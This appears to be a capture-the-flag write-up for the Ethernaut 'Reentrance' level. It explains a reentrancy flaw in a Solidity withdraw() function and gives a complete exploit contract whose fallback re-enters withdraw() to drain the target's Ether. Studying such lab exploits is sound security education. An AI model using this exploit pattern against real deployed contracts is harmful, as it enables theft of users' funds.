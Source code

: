 In the `withdraw()` function, we can see that the withdraw is processed using the `call` method, and our balance is not updated until after this call. The `call` method forwards all gas by default and allows code to be executed. No data is sent with this call, just Ether. This means the call will trigger a fallback function if one exists. If this fallback function itself calls the contracts `withdraw` function, we can again withdraw the same amount of Ether before our balance is updated.

Therefore, all funds (which total 1 Ether, as shown by `web3.eth.getBalance`) from this contract can be drained with another contract. The steps to do this are:

1. Donate 1 Ether to our contract's address using the Reentrance contract's `donate()` function
    * By donating an amount equal to the contract balance, we'll only need to call the `withdraw()` function twice &mdash; once to withdraw our own contribution, and a second time to withdraw the remaining balance

2. Call the `withdraw()` function
3. Step 2 triggers our fallback function, which then calls `withdraw()` with an input equal to the contract's remaining balance of 1 Ether, successfully draining the contract
    * Make sure to limit the number of times our fallback function is called, so we don't end up in a loop that runs out of gas.

We can do this with the contract below. Note that we can remove the need to use the Reentrance source code by instead directly obtaining the methods IDs and passing them into `call`, e.g.  `reentranceAddress.call(bytes4(keccak256("withdraw(uint)")));`

```javascript
pragma solidity ^0.4.18;

// Copy Ethernaut contract =====================================================
contract Reentrance {

  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] += msg.value;
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      if(msg.sender.call.value(_amount)()) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  function() public payable {}
}


// Our contract ================================================================
contract Exploit {

  // Create instance of Reentrance contract
  address reentranceAddress = 0xc1287929edc17a7cdbe5ba6cb05a013d86ffb31f;
  Reentrance reentranceContract = Reentrance(reentranceAddress);

  // Keep track of withdraw() calls to prevent infinite loop
  uint numWithdrawCalls = 0;

  // Donate to our own address
  function donateToOurselves() public payable {
    reentranceContract.donate.value(msg.value)(address(this));
  }

  // Begin reentrancy attack by calling withdraw
  function beginAttack() public {
      reentranceContract.withdraw(1 ether);
  }

  // Define fallback function
  function() public payable {

    // In this case we only need to call the withdraw function once
    if (numWithdrawCalls < 1) {
      reentranceContract.withdraw(1 ether);
      numWithdrawCalls += 1;
    }
  }
}

```


_Note: If calling the `beginAttack()` function with MetaMask, you may need to manually change the gas limit from the confirmation dialog_